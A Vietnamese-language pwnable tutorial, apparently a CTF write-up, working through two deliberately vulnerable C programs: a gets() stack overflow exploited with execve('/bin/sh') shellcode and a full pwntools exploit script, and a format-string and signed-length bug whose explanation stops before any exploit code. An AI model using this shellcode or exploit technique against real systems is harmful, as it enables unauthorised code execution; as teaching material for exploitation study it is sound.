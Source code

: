 # Introduction to Pwnable
## Challenge 1
### Description
Source code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main() {
        char buffer[32];
        printf("DEBUG: %p\n", buffer);
        gets(buffer);
}
```

Để gọi được shell từ chương trình này, ta có thể truyền shellcode vào `buffer`, sau đó ghi đè `return address` của hàm main bằng địa chỉ bắt đầu của buffer. Lúc này, ghi hàm `main` kết thúc, tiến trình sẽ nhảy đến `buffer` và thực thi shellcode.  

### Exploit
#### Tính offset
Đầu tiên, ta debug chương trình và tìm địa chỉ của `buffer` và `return address` để tính offset.  

Đặt break points tại ngay sau khi hàm `gets` thực thi xong để tìm địa chỉ của `buffer` và ngay tại câu lệnh `ret` của hàm `main` để tìm địa chỉ của `return address`.  

![image](https://user-images.githubusercontent.com/44528004/145716119-399b31f3-0615-4c81-983e-505d6b117893.png)

Chạy chương trình với input là `AAAA`.  

![image](https://user-images.githubusercontent.com/44528004/145716136-6c4beecd-8d25-48cc-8f8d-b765461254f9.png)

Khi chương trình dừng lại tại break point đầu tiên, ta có thể thấy thanh ghi `$rax` lưu kết quả trả về của hàm `gets` và đang lưu địa chỉ của `buffer` `0x00007fffffffdec0`. Do `buffer` là biến cục bộ nên nó sẽ được lưu trên stack, vì vậy địa chỉ này chính là 1 ô nhớ trên stack.  

![image](https://user-images.githubusercontent.com/44528004/145716156-25b6145e-0a5c-4768-a1e8-d92506d7d15a.png)

Tại break point thứ 2, đỉnh của stack đang lưu giá trị của `return address` và đỉnh của stack lúc này đang là `0x00007fffffffdee8`.  

![image](https://user-images.githubusercontent.com/44528004/145716241-273b54e2-98ee-47d1-b146-4ca65633e731.png)

Từ các thông tin trên, ta tính được offset là `0x00007fffffffdee8 - 0x00007fffffffdec0 = 40` bytes. Vậy ta cần truyền vào buffer 40 bytes và thêm 8 bytes để ghi đè `return address`. Ở đây, shellcode sẽ được ghi vào 40 bytes này và `return address` sẽ được ghi đè bằng địa chỉ của `buffer`.

#### Lấy shellcode
Ở các bài trước, ta có assembly code sau để gọi `/bin/sh`:
```asm
section .text
global _start
_start:
        xor rax,rax
        push rax
        mov rbx,'/bin//sh'
        xor rsi,rsi
        xor rdx,rdx
        push rbx
        push rsp
        pop rdi
        mov al,0x3b
        syscall
```

Compile đoạn code assembly.
```bash
nasm -f elf64 shellcode.asm -o shellcode.o
ld shellcode.o -o shellcode
```

Dùng `objdump` để xem shellcode của file object vừa compile:
```bash
└─$ objdump -d shellcode.o      

shellcode.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <_start>:
   0:   48 31 c0                xor    %rax,%rax
   3:   50                      push   %rax
   4:   48 bb 2f 62 69 6e 2f    movabs $0x68732f2f6e69622f,%rbx
   b:   2f 73 68 
   e:   48 31 f6                xor    %rsi,%rsi
  11:   48 31 d2                xor    %rdx,%rdx
  14:   53                      push   %rbx
  15:   54                      push   %rsp
  16:   5f                      pop    %rdi
  17:   b0 3b                   mov    $0x3b,%al
  19:   0f 05                   syscall
```

Với đoạn code assembly này, ta có shellcode là:
```
\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x48\x31\xf6\x48\x31\xd2\x53\x54\x5f\xb0\x3b\x0f\x05
```

Tuy nhiên, khi sử dụng shellcode này thì mình exploit không thành công nên mình thử bỏ câu lệnh `xor %rax,%rax` thì ta có shellcode là:
```
\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x48\x31\xf6\x48\x31\xd2\x53\x54\x5f\xb0\x3b\x0f\x05
```

Lúc này thì mình exploit thành công. Script exploit:
```python
from pwn import *

p = process('./demo')

shellcode = b'\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x48\x31\xf6\x48\x31\xd2\x53\x54\x5f\xb0\x3b\x0f\x05'
p.recvuntil('DEBUG: ')
buffer_addr = int(p.recv().strip()[2:], 16)

payload = shellcode + b'A' * (40 - len(shellcode)) + p64(buffer_addr)

with open('payload.in', 'wb') as f:
    f.write(payload)

p.sendline(payload)
p.interactive()
```

## Challenge 2
### Description
Source code:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void win() {
        char name[0x40];
        char shell[16] = "/bin/sh\x00";
        if (strncmp(name, "Nghi Hoang Khoa dep trai", 24) == 0) {
                puts("Chuc mung ban da khong bi diem liet");
                system(shell);
        }
}

void vuln() {
        int len = 0, f = 0;
        char message[0x50];
        printf("Nhap do dai tin nhan: ");
        scanf("%d", &len);
        if (len < 0x50) {
                read(0, message, len);
                printf(message);
                puts("Ban co muon sua lai tin nhan khong?");
                puts("1. Co");
                puts("2. Khong");
                scanf("%d", &f);
                if (f == 1) {
                        read(0, message, len);
                }
        }
}

int main() {
        setbuf(stdin, 0);
        setbuf(stdout, 0);
        vuln();
        return 0;
}
```

### Observation
Từ source code, ta thấy rằng, chương trình sẽ yêu cầu ta nhập độ dài của tin nhắn và lưu vào `len`. Nếu `len < 0x50`, ta sẽ nhập message và sau đó ta có thêm 1 lần sửa lại message.  

Tuy nhiên, ở lần đọc `message` đầu tiên, `message` sẽ được in ra màn hình bằng hàm `printf`. Do đó, ta có thể khai thác hàm `printf` này để leak địa chỉ và giá trị trên stack.  

Bên cạnh đó, thông qua `checksec`, ta thấy được là chương trình này được bật đầy đủ chế độ bảo vệ.  
```
Canary                        : ✓ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```

### Exploit
Mở ghidra để xem pseudocode của hàm `vuln`.  

![image](https://user-images.githubusercontent.com/44528004/145931692-b94b7ab9-db0a-46d3-b79f-1e626942c81b.png)  

Ở đây, ta thấy rằng, `len` là được khai báo là `uint`, nhưng `len` được so sánh với `0x50` thì `len` được convert sang `int`. Sau đó, nếu `int(len) < 0x50`, ta sẽ được ghi giá trị vào message nhưng với `len` lúc này là `ulong`. Điều này cho thấy, nếu ta truyền `len` là một số `>= 0x80000000` thì `int(len)` sẽ luôn nhỏ hơn `0x50` vì từ 1 số không dấu `0x80000000` được convert sang 1 số có dấu thì sẽ trở thành số âm. Và số âm thì luôn `< 0x50` nên sẽ luôn thoả điều kiện. Bên cạnh đó, khi hàm `read` được thực thi, `len` lại được dùng như là 1 số không dấu nên lúc này độ dài message mà ta có thể ghi là rất lớn.
